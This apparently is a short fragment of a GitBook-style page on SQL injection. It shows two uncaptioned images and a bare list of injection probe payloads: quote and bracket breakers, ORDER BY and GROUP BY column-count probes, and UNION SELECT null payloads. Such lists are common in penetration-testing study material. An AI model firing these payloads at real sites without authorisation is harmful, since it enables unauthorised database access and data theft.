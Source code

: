 <figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

###

**List**

```
'
"
`
')
")
`)
'))
"))
`))
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 4--+
1' GROUP BY 1--+
1' GROUP BY 2--+
1' GROUP BY 3--+
1' GROUP BY 4--+
1' UNION SELECT null-- -
1' UNION SELECT null,null-- -
1' UNION SELECT null,null,null-- -
```